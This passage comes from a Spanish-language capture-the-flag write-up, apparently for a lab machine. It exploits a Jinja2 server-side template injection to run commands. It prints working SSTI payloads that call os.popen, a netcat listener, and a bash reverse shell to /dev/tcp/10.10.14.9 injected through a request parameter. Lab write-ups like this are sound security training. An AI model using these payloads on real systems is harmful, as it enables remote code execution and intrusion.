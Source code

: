 Estupendo parece que es vulnerable a jinja2 para python, voy a buscar payloads y a ir probando algunos desde repeater de burpsuite a ver que conseguimos. Lo ideal es conseguir una revert shell por lo que tendremos que ponernos en escucha, pero bueno, no adelantemos acontecimientos.

#### Exploit the SSTI by calling os.popen().read()

These payloads are context-free, and do not require anything, except being in a jinja2 Template object:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

Pues realmente una vez localizado los payloads no he tenido que probar mucho

![](assets/2022-06-30-19-16-13.png)

Voy a mandar poniendo la revertshell

La revert shell sería esta 

```bash
#antes me pongo en escucha en otra terminal

nc -lnvp 443

bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1

costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"').read() }}&q=1&addr=1
```
![](assets/2022-06-30-19-29-16.png)
